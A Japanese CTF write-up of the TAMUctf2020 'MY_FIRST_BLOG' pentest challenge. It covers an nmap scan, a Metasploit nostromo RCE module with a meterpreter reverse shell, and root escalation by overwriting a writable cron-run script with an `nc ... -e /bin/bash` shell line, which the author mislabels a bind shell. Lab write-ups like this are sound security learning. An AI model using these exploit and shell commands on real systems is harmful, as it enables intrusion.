 ```yaml
---
title: "【TAMUctf2020 writeup】MY_FIRST_BLOG（NETWORK_PENTEST）"
date:  "2020-03-30T15:04:05+07:00"
author:
  - "さんぽし"
description: "【TAMUctf2020 writeup】MY_FIRST_BLOG（NETWORK_PENTEST）"
draft: false
tags: ["CTF","writeup"]
categories:
  - "security"
---
```


## はじめに
KUDoS として TAMUctf2020 に参加しました。
MY_FIRST_BLOG は唯一解いた問題です。（もっと貢献しろ）
Hack the Box Like ですごい楽しかったです。

難易度的には Hack the Box の easy レベルだと思いました。（そもそも僕が解けてるので…）

## nmap

```
$ nmap -sC -sV 172.30.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-20 21:58 EDT
Nmap scan report for 172.30.0.2
Host is up (0.18s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nostromo 1.9.6
|_http-generator: Hugo 0.54.0
|_http-server-header: nostromo 1.9.6
|_http-title: My first blog!
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.86 seconds
```

nostromo 1.9.6 には[nostromo 1.9.6 - Remote Code Execution](https://www.exploit-db.com/exploits/47837)の脆弱性があります

## metasploit使う

```
msf5 exploit(multi/http/nostromo_code_exec) > options

Module options (exploit/multi/http/nostromo_code_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.30.0.2       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SRVHOST  172.30.0.14      yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.30.0.14      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)

```

これで meterpreter の shell が取れます



## /etc/crontabをみる

毎度お世話になっている[高林さん](https://twitter.com/1eDVeCw6hdSLhzB)の以下の記事を参考に調査を進めます
https://kakyouim.hatenablog.com/entry/2020/03/14/031746#Linux

```:/etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /usr/bin/healthcheck
```

`/etc/crontab`をみると `/usr/bin/healthcheck` が実行され続けていることがわかります。

## Linpeas.sh

Linpeas.sh を使用します。
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

これにより先ほどの `/usr/bin/healthcheck` が書き換え可能であることがわかります
（長いので細かい結果は省略）

## `/usr/bin/healthcheck`を書き換えてbind shellをとる
以下を meterpreter の `upload` コマンドを使って `/usr/bin/healthcheck` と置き換えます。

```:/usr/bin/healthcheck
nc 192.168.100.113 4444 –e /bin/bash
```

4444 番 port で待ち受けさせたので、local で以下のようにすると接続できます。

```
$ nc -nv 172.30.0.2 4444
(UNKNOWN) [172.30.0.2] 4444 (?) open
ls
flag.txt
```

flagGET です

## 終わりに
最近 Hack the Box ばかりやっていて CTF に参加していなかったのですが、CTF はみんなで力を合わせて頑張る感があってすごく楽しいですよね…
今回みたいな PENTEST の問題が出てくる CTF があったらまた貢献できるように頑張りたいです
（本当は Web 問解けるようになりたいんですけど徳丸本すら読破していないのでこういう問題でしか役に立てない）

